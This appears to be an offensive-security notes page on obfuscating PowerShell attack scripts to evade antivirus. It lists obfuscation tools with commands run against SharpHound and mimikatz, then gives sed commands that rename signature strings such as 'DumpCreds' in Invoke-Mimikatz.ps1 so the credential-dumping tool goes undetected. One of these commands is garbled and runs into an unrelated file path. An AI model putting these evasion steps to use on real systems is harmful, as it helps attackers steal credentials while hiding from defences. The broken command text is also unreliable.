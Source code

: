 #### obfuscating powershell scripts to bypass AV



### Use PyFuscation to obfuscate powershell scripts which replace fucntions ,variables and parameters
https://github.com/CBHue/PyFuscation

> python3 PyFuscation.py -fvp --ps SharpHound.ps1


### USe chimera or chameleon
https://github.com/klezVirus/chameleon

> python3 chameleon.py -a mimikatz.ps1 -o mimichamelon.ps1


## Use Invoke-Stealth

https://github.com/JoelGMSec/Invoke-Stealth










IN below example invoke-mimikatz.ps1 is obfuscated so antivirus dont detect it

We can use this as an example for any powershell scripts because AV looks for malicuous strings like script name or string CREDS or etc. We can bypass this by changing the script contents but keeping the functionality intact.its like changing variable names in code.


sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1
sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1

sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1

sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1

sed -i -e 's/ArgumentPtr/NotTodayPal/g' Invoke-Mimikatz.ps1

sed -i -e 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' 
Invoke-Mimikatz.ps1

sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions 
\$Win32Functions #\-/g" Invoke-Mimikatz./usr/share/doc/python3-impacket/examples/smbserver.py

# Powershell Scripts Obfuscater

Resources : https://www.varonis.com/blog/powershell-obfuscation-stealth-through-confusion-part-i/

Use powerop.py



# Crackmapexec AV bypassing
